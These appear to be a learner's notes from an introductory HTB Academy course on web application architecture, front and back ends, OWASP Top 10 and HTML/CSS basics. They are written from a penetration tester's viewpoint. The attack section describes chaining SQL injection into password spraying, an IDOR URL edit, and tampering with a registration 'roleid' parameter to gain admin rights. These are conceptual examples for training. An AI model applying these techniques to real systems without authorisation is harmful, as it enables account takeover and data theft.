# Introduction to Web Applications (Notes From: HTB Academy)

## Introduction

- **Web Applications** are interactive applications that run on web browsers. Web applications usually adopt a **client-server architecture** to run and handle interactions.

- They typically have front end components (i.e., the website interface, or "what the user sees") that run on the client (browser) and other back end components (web application source code) that run on the the server-side (back end server/databases).

- This allows organizations to host powerful applications with near-complete real-time control over their design and functionality while being accessible worldwide. Some examples of typical web applications include online email services like **Gmail**, online retailers like **Amazon**, online word processors like **Google Docs**.

- Web applications are not exclusive to giant providers like Google or Microsoft but can be developed by any web developer and hosted online in any of the common hosting services, to be used by anyone on the internet.

- This is why today we have millions of web applications all over the internet, with billions of users interacting with them every day.

## Web Applications vs. Websites

- In the past, we interacted with websites that are static and cannot be changed in real-time. This means that traditional websites were statically created to represent specific information, and this information would not change with our interaction.

- To change website's content, the corresponding page has to be edited by the developers manually. These type of static pages do not contain functions and, therefore, do not produce real-time changes. That type of website is also known as **Web 1.0**.



- On the other hand, most website run web applications, or **Web 2.0** presenting dynamic content based on user interaction.

- Another significant difference is that web applications are fully functional and can perform various functionalities for the end-user, while sites lack this type of functionality.

- Other key differences between traditional websites and web applications include:
  - Being modular
  - Running on any display size
  - Running on any platform without being opimized

## Web Applications vs. Native Operating System Applications
  
- Unlike native operating system (native OS) applications, web-applications are platform-independent and can run in a browser on any operating system.

- These web applications do not have to be installed on a user's system because these web applications and their functionality are executed remotely on the remote server and hence do not consume any space on the end user's hard drive.

- Another advantage of web applications over native OS applications is version unity. All users accessing a web application use the same version and the same web application, which can be continuously updated and modified without pushing updates to each user.

- Web applications can be updated in a single location (webserver) without developing different builds for each platform, which dramatically reduces maintenance and support costs removing the need to communicate changes to all users individually.

- On the other hand, native OS applications have certain advantages over web applications, mainly their operation speed and the ability to utilize native operating system libraries and local hardware.

- As native applications are built to utilize native OS libraries, they are much faster to load and interact with.

- Furthermore, native applications are usually more capable than web applications, as they have a deeper integration to the operating system and are not limited to the browser's capabilities only.

- More recently, however, hybrid and progressive web applications are becoming more common. They utilize modern frameworks to run web applications using native OS capabilities and resources, making them faster than regular web applications and more capable.

## Web Application Distribution

- There are many open-soure web applications used by organizations worlwide that can be customized to meet each organization's needs. Some common open source web applications include:
  - Wordpress
  - OpenCart
  - Joomla

- There are also proprietary 'closed source' web applications, which are usually developed by a certain organization and then sold to another organization or used by organizations through a subscription plan model.
  - Wix
  - Shopify
  - DotNetNuke

## Security Risks of Web Applications

- Web application attacks are prevalent and present a challenge for most organizations with a web presence, regardless of their size.

- After all, they are usually accessible from any country by everyone with an internet connection and a web browser and usually offer a vast attack surface.

- There are many automated tools for scanning and attacking web applications that, in the wrong hands, can cause significant damage.

- As web applications become more complicated and advanced, so does the possiblity of critical vulnerabilities being incorporated into thier design.

- A successful web application attack can lead to significant losses and massive business interruptions. Since web applications are run on servers that may host other sensitive information and are often also linked to databases containing sensitive user or corpotate data, all of this data could be compromized if a web site is successfully attacked.

- This is why it is critical for any business that utilizes web applications to properly test these applications for vulnerabilities and patch them promptly while testing that the patch fixes the flaw and does not inadvertently introduce any new flaws.

- Web application penetration testing is an increasingly critical skill to learn. Any organization looking to secure their internet-facing (and internal) web applications should undergo frequent web application tests and implement secure coding practices at every development life cycle stage.

- To properly pentest web applications, we need to understand how they work, how they are developed, and what kind of risk lies at each layer and component of the application depending on the technologies in use.

- We will always come across various web applications that are designed and configured differently. One of the most current and widely used methods for testing web applications is the **OWASP Web Security Testing Guide**.

- One of the most common procedures is to start by reviewing a web application's front end components, such as **HTML**, **CSS** and **Javascript** (also known as the front end trinity), and attempt to find vulnerabilities such as **Sensitive Data Exposure** and **Cross Site Scripting (XSS)**.

- Once all front end components are thoroughly tested, we would typically review the web application's core functionality and the interaction between the browser and the webserver to enumerate the technologies the webserver uses and look for exploitable flaws.

- We typically assess web applications from both an unauthenticated and authenticated perspective (if the application has login functionality) to maximize coverage and review every possible attack scenario.

## Attacking Web Applications

- Nowadays every corporation no matter how big it is, they will definitely have one or more web applications within their external perimeter.

- These applications can be everything from simple static websites to blogs powered by Content Management Systems (CMS) such **WordPress** to complicated applications with sign-up/login functionality supporting various user roles from basic users to super admins. Nowadays, it is not very common to find an externally facing host directly exploitable via a known public exploit (such as a vulnerable service or Windows remote code execution (RCE) vulnerability), though it does happen.

- Web applications provide a vast attack surface, and their dynamic nature means that they are constantly changing (and overlooked!).

- A relatively simple code change may introduce a catastrophic vulnerability or a series of vulnerabilities that can be chained together to gain access to sensitive data or remote code execution on the webserver or other hosts in the environment, such as database servers.

- It is not uncommon to find flaws that can lead directly to code execution, such as a file upload form that allows for the upload of malicious code or a file inclusion vulnerability that can be leveraged to obtain remote code execution.

- A well-known vulnerability that is still quite prevalent in various type of web applications is SQL injection. This type of vulnerability arises from the unsafe handling of user-supplied input. It can result in access to sensitive data, reading/writing files on the database server, and even remote code execution.

- We often find SQL injection vulnerabilities on web applications that use Active Directory for authentication. While we can usually not leverage this to extract password (since Active Directory administrators them), we can often pull most or all Active Directory user email addresses, which are ofen the same as their usernames.

- This data can then be used to perform a **password spraying** attack against web portals that use Active Directory for authentication such as VPN or Microsoft Outlook Web Access/Microsoft O365.

- A successful password spray can often result in access to sensitive data such as email or even a foothold directly into the corpotate network environment.

- This example shows the damage that can arise from a single web application vulnerability, especially when "chained" to extract data from one application that can be used to attack other portions of a company's external infrastruction.

- **A well-rounded infosec professional should have a deep understanding of web applications and be as comfortable attacking web applications as performing network penetration and Active Directory attacks.**

- A penetration tester with a strong a foundation in web applications can often set themselves apart from their peers and find flaws that orders may overlook.

- A few more real-world example of web-application attacks and the impact are as follows:

| **Flaw** | **Real-world Scenario** |
|----------|-------------------------|
| SQL injection | Obtaining Active Directory usernames and performing a password spraying attack against a VPN or email portal. |
| File Inclusion | Reading source code to find a hidden page or directory which exposes additional functionality that can be used to gain remote code execution. |
| Unrestricted File Upload | A web application that allows a user to upload a profile picture that allows any file type to be uploaded (not just images). This can be leveraged to gain full control of the web application server by uploading malicious code. |
| Insecure Direct Object Referencing (IDOR) | When combined with a flaw such as broken access control, this can often be used to access another user's files or functionality. An example would be editing your user profile browsing to a page such as /user/701/edit-profile. If we can change the **701** to **702**, we may edit another user's profile!. |
| Broken Access Control | Another example is an application that allows a user to register a new account. If the account registration functionality is designed poorly, a user may perform privilege escalation when registering. Consider the **POST** request when registering a new user, which submits the data **username=bjones&password=Welcome1&email=bjones@inlanefreight.local&roleid=3**. What if we can manipulate the **roleid** parameter and change it to **0** or **1**. We have seen real-world applications where this was the case, and it was possible to quickly register an admin user and access many unitended features of the web application. |

## Web Application Layout

- Web Application layouts consists of many different layers that can be summarized with the following three main categories:

|**Category** | **Description**|
|-------------|----------------|
| Web Application Infrastructure | Describes the structure of required componenets, such as the database, needed for the web application to function as intended. Since the web application can be set up to run on a separate server, it is essential to know which database server it needs to access. |
| Web Application Components | The components that make up a web application represent all the components that the web application interacts with. These are divided into the following three areas: **UI/UX**,**Clients**, and **Server** components. |
| Web Application Architecture | Architecture comprises all the relationships between the various web application components. |

## Web Application Infrastructure

- Web applications can use many different infrastructure setups. These are also called **models**. The most common ones can be grouped into the following four types:
  - Client-Server
  - One Server
  - Many Server - One Database
  - Many Server - Many Database

## Client-Server

- Web applications often adopt the **client-server** model. A server hosts the web applications in a client server model and distributes it to any clients trying to access it.



- In this model, web applications have two types of components, those in the front end, which are usually interpreted and executed on the client-side (browser), and components in the back end, usually compiled, interpreted, and executed by the hosting server.

- When a client visits the web applications's URL (web address, i.e. https://www.acme.local), the server uses the main web application interface (**UI**). Once the user clicks on a button or requests a specific function, the browser sends a HTTP web request to the server, which interprets this request and performs the necessary task(s) to complete the request (i.e., logging the user in, adding an item to the shopping cart, browsing to another page, etc.).

- Once the server has the required data, it sends the result back to the client's browser, displaying the result in a human-readable way.

- However, even though most web applications utilize a client-server front-back end architecture, there are many design implementations.

## One Server

- In this architecture, the entire web application or even several web applications and their components, including the database, are hosted on a single server.

- Though this design is straightforward and easy to implement, it is also the riskiest design.



- If any web application hosted on this server is compromized in this architecture, then all web applications' data will be compromized. This design represents an "**all eggs in one basket**" approach since if any of the hosted web applications are vulerable.

- Furthermore, if the webserver goes down for any reason, all hosted web applications become entirely inaccessible until the issue is resolved.

## Many Server - One Database

- This model separates the Database onto its own database server and allows the web applications' hosting server to access the database server to store and retrieve data.

- It can be seen as many-servers to one-database and one-server to one-database, as long as the database is separated on its own database server.



- This model can allow several web applications to access a single database to have access to the same data without syncing the data between them.

- The web applications can be replicates of one main application (i.e. primary/backup), or they can be separate web applications that share common data.

- This model's main advantage (**from a security point of view**) is segmentation, where each of the main components of a web application is located and hosted separately.

- In case one webserver is compromised, other webservers are not directly affected. Similarly, if the database is compromised. (i.e., through a SQL Injection vulnerability), the web application itself is not directly affected.

- There are still access control measures that need to be implemented after asset segmentation, such as limiting web application access to only data needed to function as intented.

## Many Servers - Many Databases

- This model builds upon the **Many Servers, One Database** model. However, within database server, each web application's data is hosted in a separate database.

- The web application can only access private data and only common data that is shared across web applications.

- It is also possible to host each web application's database on its separate database server.



- This design is also widely used for redundancy purposes, so if any web server or database goes offline, a backup will run in its place to reduce downtime as much as possible.

- Although this may be more difficult to implement and may require tools like **load balancers** to function appropriately, this architecture is one of the best choices in terms of security due to its proper access control measures and proper asset segmentation.

- Aside from these models, there are other web application model available such as **serverless** web applications or web applications that utilizes **microservices**.

## Web Application Components

- Each web application can have a different number of components. Nevertheless, all of the components of the models mentioned previously can be broken down to:
  1. **Client**
  2. **Server**
    - Webserver
    - Web Application Logic
    - Database
  3. **Services**
    - 3rd Party Integrations
    - Web Application Integrations
  4. **Functions** (Serverless)

## Web Applications Architecture

- The components of a web application are divided into three different layers.

| **Layer** | **Description** |
|-----------|-----------------|
| Presentation Layer | Consists of UI process components that enable communication with the application and the system. These can be accessed by the client via the web browser and are returned in the form of HTML, JavaScript, and CSS. |
| Application Layer | This layer ensures that all client requests (web requests) are correctly processed. Various criteria are checked, such as authorization, privileges, and data passed on to the client. |
| Data Layer | The data layer works closely with the application layer to determine exactly where the required data is stored and can be accessed. |

- An example of a web application architecture could look something like this:



## Microservices

- We can think of microservices as independent components of the web application which in most cases are programmed for one task only.

- For example, for an online store, we can decompose core tasks into the following components:

  - Registration
  - Search
  - Payments
  - Ratings
  - Reviews

- These components communicate with the client and with each other. The communication between these microservices is **stateless**, which means that the request and response are independent.

- This is because the stored data is **stored separately** from the respective microservices. The use of microservices is considered **service-oriented architecture (SOA)**, built as a collection of different automated functions focused on a single business goal.

- Nertheless, these microservices depend on each other.

- Another essential and efficient microservice component is that they can be written in different programming languages and still interact.

- Microservices benefit from easier scaling and faster development of applications, which encourages innovation and speed upmarket delivery of new features.

- Some benefits of microservices include:

  - Agility
  - Flexible scaling
  - Easy Deployment
  - Reusable code
  - Resilience

- This AWS **whitepaper** provides an excellent overview of microservices implementation.

## Serverless

- Cloud providers such as AWS, GCP, Azure, among others, offer serverless architecture.

- These platforms provide application frameworks to build such web applications without having to worry about the server themselves.

- These web applications then run in stateless computing containers (Docker, for example).

- This type of architecture gives a company the flexibility to build and deploy applications and services without having to manage infrastructure; all server management is done by the cloud provider, which gets rid of the need to provision, scale and maintain servers needed to run applications and databases.

## Architecture Security

- Understanding the general architecture of web applications and each web application's specific design is important when performing a penetration test on any web application.

- In many cases, an individual web application's vulnerability may not necessarily be caused by a programming error but by a design error in its architecture.

- For example, an individual web application may have all of its core functionality securely implemented. However, due to a lack of proper access control measures in its design, i.e., use of **Role-Based Access Control(RBAC)**, users may be able to access some admin features that are not intended to be directly accessible to learn or even access other user's private information without having the privileges to do so.

- To fix this type of issue, a significant design change would need to be implemented, which would likely be both costly and time-consuming.

- Another example would be if we cannot find the database after exploiting a vulnerability and gaining control over the back-end server, which may mean that the database is hosted on a separate server.

- We may only find part of the database data, which may mean there are several database in use.

- This is why security must be considered at each phase of web application development, and penetration tests must be carried throughout the web application development lifecycle.

## Front End vs. Back End

- We may have heard the ***terms*** **front-end** and **back-end** web development, or the term **Full-Stack** web development, which refers to both **front** and **back end** web development.

- These terms are becoming synonymous with web application development, as they comprise the mojority of the web development cycle.

- However, these terms are very different from each other, as each refers to one side of the web application, and each function and communicate in different areas.

## Front End

- The front end of a web application contains the user's components directly through their web browser (client-side).

- These components make up the source code of the web page we view when visiting a web application and usually include **HTML**, **CSS**, and **Javascript**, which is then interpreted in real-time by our browsers.



- This include everything that the user sees and interacts with, like the page's main elements such as the title and text **HTML**, the design and animantion of all elements **CSS**, and what function each part of a page performs **Javascript**.

- In modern web applications, front end components should adapt to any screen size and work within any browser on any device.

- This contrasts with back end components, which are usually written any browser on any device. This contrasts with back end components, which are usually written for a specific platform or operating system.

- If the front end of a web application is not well optimized, it may make the entire web application slow and unresponsive.

- In this case, some users may think that the hosting server, or their internet, is slow, while the issue lies entirely on the client-side at the user's browser.

- This is why the front end of a web application must be optimized for most platforms, devices (including mobile!), and screen sizes.

- Aside from frontend code development, the following are some of the other tasks related to front end web application development:

  - Visual Concept Web Design
  - User Interface (UI) Design
  - User Experience (UX) Design

## Back End

- The back end of a web application drives all of the core web application  functionalities, all of which is executed at the back end server, which processes everything required for the web application to run correctly.

- It is the part we may never see or directly interact with, but a website is just a collection of static web pages without a back end.

- There are four main back end components for web applications:

| **Component** | **Description** |
|---------------|-----------------|
| Back end Servers | The hardware and operating system that hosts all other components and are usually run on operating systems like **Linux**, **Windows**, and or using **Containers**.
| Web Servers | Web Servers handle HTTP requests and connections. Some examples are **Apache**, **NGINX**, and **IIS**. |
| Databases | Databases (**DBs**) store and retrieve the web application data. Some examples of relational databases are **MySQL**, **MSSQL**, **Oracle**, **PostgreSQL**, while examples of non-relational databases include **NoSQL** and **MongoDB**. |
| Development Frameworks | Development Frameworks are used to develop the core Web Application. Some well-known framework include **PHP**, **C#**, **Java**, **Python**, and **NodeJS Javascript**. |



- It also possible to host each component of the back end on its own isolated server or in isolated containers, by utilizing services such as **Docker**.

- Some parts of web application, like the database, can be installed into a Docker container, with the main web application being installed into another Docker container, to keep each logically separated off with the hope that any vulnerabilities that may affect one (i.e., a web application vulnerability) the other container(s).

- It is also possible to separate each into its dedicated server, which can be more resource-intensive and time-consuming to maintain.

- Still, it depends on the business case and design/functionality of the web application in question.

- Some of the main jobs performed by back end components include:
  
  - Develop the main logic and services of the back end of the web application
  - Develop the main code end functionalities of the web application
  - Develop and maintain the back end database
  - Develop and implement libraries to be used by the web application
  - Implement technical/business needs for the web application
  - Implement the main **APIs** for front end component communications
  - Integrate remote servers and cloud services into the web application

## Securing Front/Back End

- Even though is most cases, we will not have access to the back end code to analyze the individual functions and the structure of the code, it does not make the application invulnerable.

- It could still be exploited by various injection attacks, for example:
  
  - Suppose we have a seach function in a web application that mistakenly does not process our search queries correctly. In that case, we could use specific techniques to manipulate the queries in such a way that we gain unauthorized access to specific database data **SQL injections** or even execute operating system commands via the web application, also known as **Command Injections**.

- When we have full access to the source code of front end components, we can perform a code review to find vulnerabilities, which is part of what is referred to as **Whitebox Pentesting**.

- On the other hand, back end components' source code is stored on the back end server, so we do not have access to it by default, which forces us only to perform what is known as **Blackbox Pentesting**.

- However, as we will see, some web applications are open source, meaning we likely have access to their source code. Futhermore, some vulnerabilities such as **Local File Inclusion** could allow us to obtain the source code from the back end server.

- With this source code in hand, we can then perform a code review on back end components to futher understand how the application works, potentially find sensitive data in the source code (such as passwords), and even find vulnerabilities that would be difficult or impossible to find without access to the source code.

- The **top 20** most common mistakes web developers make that are essential for us as penetration testers are:

| **No.** | **Mistake** |
|---------|-------------|
| 1. | Permitting Invalid Data to Enter the Database |
| 2. | Focusing on the System as a Whole |
| 3. | Establishing Personally Developed Security Methods |
| 4. | Treating Security to be Your Last Step |
| 5. | Developing Plain Text Password Storage |
| 6. | Creating Weak Passwords |
| 7. | Storing Unencrypted Data in the Database |
| 8. | Depending Excessively on the Client Side |
| 9. | Being Too Optimistic |
| 10. | Permitting Variables via the URL Path Name |
| 11. | Trusting third-party code |
| 12. | Hard-coding backdoor accounts |
| 13. | Unverified SQL Injections |
| 14. | Remote file inclusions |
| 15. | Insecure Data Handling |
| 16. | Failing to encrypt data properly |
| 17. | Not using a secure cryptographic system |
| 18. | Ignoring layer 8 |
| 19. | Review user actions |
| 20. | Web Application Firewall misconfigurations |

- These mistakes lead to the **OWASP Top 10** vulnerabilities for web applications:

| **No.** | **Vulnerability** |
|---------|-------------------|
| 1. | Injection |
| 2. | Broken Authentication |
| 3. | Sensitive Data Exposure |
| 4. | XML External Entities (XXE) |
| 5. | Broken Access Control |
| 6. | Security Misconfiguration |
| 7. | Cross-Site Scripting (XSS) |
| 8. | Insecure Deserialization |
| 9. | Using Components with Know Vulnerabilities |
| 10. | Insufficient Logging and Monitoring |

- It is important to begin to familiarize ourselves with these flaws and vulnerabilities as they form the basis for many of the issues we cover in future web and even non-web related modules. As pentesters, we must have the ability to competently identify, exploit, and explain these vulnerabilities for our clients.

## HTML

- The first and most dominant component of the front end of web applications is **HTML (Hypertext Markup Language)**.

- HTML is at the very core of any web page we see on the internet. It contains each page's basic elements, including titles, forms, images, and many other elements.

- The Web browser, in turn, interprets these elements and displays them to the end-user.

- The following is a very basic example of and HTML page:

```
<!DOCTYPE html>
<html>
  <head>
    <title>Page Title</title>
  </head>
  <body>
    <h1>A Heading</h1>
    <p>A Paragraph</p>
  </body>
</html>
```

- This would display the following:



- As we can see, HTML elements are displayed in a tree form, similar to **XML** and other languages:

### HTML Structure



- Each element can contain other HTML elements, while the main **HTML** tag should contain all other elements within the page, which falls under **document**, distinguishing between **HTML** and document written for other languages, such as **XML** documents.

- The HTML elements of the above code can be viewed as follows:



```
- Each HTML element is opened and closed with a tag that specifies the element's type 'e.g. <p> for paragraphs', where the content would be placed between these tags.

- Tags may also hold the element's id or class 'e.g. <p id='para1'> or <p id='red-paragraphs'>', which is needed for CSS to properly format the element. Both tags and the content comprise the entire element.
```
### URL Encoding

- An important concept to learn in HTML is **URL Encoding**, or percent-encoding. For a browser to properly display a page's contents, it has to know the charset in use.

- In URLs, for example, browsers can only use **ASCII** encoding, which only allows alphanumric characters and certain special characters.

- Therefore, all other characters outside of the ASCII character-set have to be encoded within a URL. URL encoding replaces unsafe ASCII characters with a **%** symbol followed by two hexadecimal digits.

- For example, the single-quote character '**'**' is encoded to '**%27**', which can be understood by browsers as a single-quote.

- URLs cannot have spaces in them and will replace a space with either a **+** (plus sign) or **%20**. Some common character encodings are:

| **Character** | **Encoding** |
|---------------|--------------|
| space | %20 |
| ! | %21 |
| " | %22 |
| # | %23 |
| $ | %24 |
| % | %25 |
| & | %26 |
| ' | %27 |
| ( | %28 |
| ) | %29 |

### Usage
```
- The **<head>** element usually contains elements that are not directly printed on the page, like the page title, while all main page elements are located under **<body>**.

- Other important element include the **<style>**, which holds the page's CSS code, and the **<script>**, which holds the JS code of the page.
```

- Each of these elements is called a **DOM (Document Object Model).** The **World Wide Web Consortium (W3C)** defines **DOM** as:

**"The W3C Document Object Model (DOM) is a platform and language-neutral interface that allows programs and scripts to dynamically access and update the content, structure, and style of a document."**

- The DOM standard is separated into 3 parts:

  - **Core DOM** - the standard model for all document types

  - **XML DOM** - the standard model for XML documents

  - **HTML DOM** - the standard model for HTML documents

- For example, from the above tree view, we can refer to DOMs as **document.head** or **document.h1**, and so on.

- Understanding the HTML DOM structure can help us understand where each element we view on the page is located, which enables us to view the source code of a specific element on the page and look for potential issues.

- We can locate HTML elements by their id, their tag name, or by their class name.

## Cascading Style Sheets (CSS)

- **CSS (Cascading Style Sheets)** is the stylesheet language used alongside HTML to format and set the style of HTML elements. Like HTML, there are several versions of CSS, and each subsequent version introduces a new set of capabilities that can be used for formatting HTML elements.

- Browsers are updated alongside it to support these new features.

### Examples

- At Fundamental level, CSS is used to define the style of each class or type of HTML elements (i.e. **body** or **h1**), such that any element within that page would be represented as defined in the CSS file.

- This could include the font family, font size, background color, text color and alignment, and more.

```
body {
    background-color: black;
  }
h1 {
    color: white;
    text-align: center;
  }
p{
    font-family: helvetica;
    font-size: 10px;
  }
```

- As previously mentioned, this is why we may set unique IDs or class names for certain HTML elements so that we can later refer to them within CSS or JavaScript when needed.

### Syntax

- CSS defines the style of each HTML element or class between curl brackets **{}**, within which the properties are defined with their values (i.e. **element { property : value;}**).

- Each HTML element has many properties that can be set through CSS, such as **height, position, border, margin, padding, color, text-align, font-size,** and hundreds of other properties.

- All of these can be combined and used to design visually appealing web pages.

- CSS can be used for advanced animations for a wide variety of uses, from moving items all the way to advanced 3D animations.

- Many CSS properties are available for animations, like **@keyframes, animation, animation-duration, animation-direction,** and many others.

### Usage

- CSS is often used alongside JavaScript to make quick calculations, dynamically adjust the style properties of certain HTML elements, or achieve advanced animation based on keystrokes or the mouse cursor location.

- Furthermore, CSS can be used alongside other languages to implement their styles, like **XML** or within **SVG** items, and can also be used in modern mobile development platforms to design entire mobile application User Interface (UI).

### Frameworks

- Many may consider CSS to be difficult to develop. In contrast, others may argue that it is inefficient to maually set the style and design of all HTML elements in each web page.

- This is why many CSS frameworks have been introduced, which contain a collection of CSS style-sheets and designs, to make it much faster and easier to create beautiful HTML elements.

- Furthermore, these frameworks are optimized for web application usage. They are designed to be used with JavaScript and for wide use within a web application and contain elements usually required within modern web applications. Some of the most common CSS frameworks are:

  - Bootstrap
  - SASS
  - Foundation
  - Bulma
  - Pure

## JavaScript

- JavaScript is one of the most used language in the world. It is most likely used for web development and mobile development.

- **JavaScript** is usually used on the front end of the application to be executed within a browser.

